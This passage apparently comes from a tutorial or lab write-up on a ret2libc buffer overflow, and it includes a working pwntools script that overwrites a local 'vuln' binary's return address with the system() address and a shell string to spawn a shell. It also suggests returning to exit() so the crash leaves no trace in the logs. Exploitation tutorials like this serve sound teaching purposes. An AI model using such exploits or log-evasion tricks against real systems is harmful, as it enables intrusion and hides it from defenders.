  * Step 4:

 Some python to get the sum of the libc offset and what interests us, and BIM, we have everything. A little longer, but for more complicated exploits, this way of doing things is to be preferred, believe me! :')

<img class="img_med" src="mind_blown.gif" alt="mind_blown" >

So we got the system and `/bin/sh` addresses to run a shell. Allright! :D

Now that we have everything we need, let's write down our exploit:

```python
#!/usr/bin/en python2

from pwn import *

offset = 268
payload = "A" * offset
payload += p32(0xf7dfa7d0) # @system
payload += p32(0x42424242) # @retour - foo
payload += p32(0xf7f3688a) # @"/bin/bash\x00"

r = process(["./vuln", payload])
r.interactive()
```

Note :

Here, I used 0x4242424242 because the value doesn't matter to us, where the program returns here when leaving the targeted function, here it doesn't matter. But if you want to avoid the program crash when you close your shell, it is possible to put in this location the address of the exit function, which will properly close the program, thus leaving no trace in the logs... ;)

Here, once the shell is closed, the program will jump to address 0x424242424 and die of a painful segfault... Save lives, place exits... Or don't.

Then we run it:

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

And BIM, we pop our shell via a very basic ret2libc!

<img class="img_med" src="like_a_boss.jpg" alt="like_a_boss" >

